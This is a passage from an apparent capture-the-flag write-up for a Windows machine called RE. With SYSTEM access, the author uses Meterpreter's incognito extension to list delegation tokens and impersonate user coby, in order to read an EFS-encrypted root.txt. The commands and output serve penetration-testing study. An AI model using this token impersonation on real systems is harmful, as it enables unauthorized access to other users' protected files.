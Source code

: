 I can't read `root.txt` because it's encrypted for Coby:

```
C:\Users\Administrator\Desktop>cipher /c root.txt

 Listing C:\Users\Administrator\Desktop\
 New files added to this directory will not be encrypted.

E root.txt
  Compatibility Level:
    Windows XP/Server 2003

  Users who can decrypt:
    RE\Administrator [Administrator(Administrator@RE)]
    Certificate thumbprint: E088 5900 BE20 19BE 6224 E5DE 3D97 E3B4 FD91 C95D

    coby(coby@RE)
    Certificate thumbprint: 415E E454 C45D 576D 59C9 A0C3 9F87 C010 5A82 87E0

  No recovery certificate found.

  Key Information:
    Algorithm: AES
    Key Length: 256
    Key Entropy: 256
```

I'll do it the easy and just impersonate Coby since I have SYSTEM access.

```
meterpreter > load incognito
[-] The 'incognito' extension has already been loaded.
meterpreter > list_tokens -u coby

Delegation Tokens Available
========================================
Font Driver Host\UMFD-0
Font Driver Host\UMFD-1
IIS APPPOOL\re
IIS APPPOOL\REblog
NT AUTHORITY\IUSR
NT AUTHORITY\LOCAL SERVICE
NT AUTHORITY\NETWORK SERVICE
NT AUTHORITY\SYSTEM
RE\cam
RE\coby
RE\luke
Window Manager\DWM-1

Impersonation Tokens Available
========================================
IIS APPPOOL\ip

meterpreter > impersonate_token RE\\coby
[+] Delegation token available
[+] Successfully impersonated user RE\coby
```
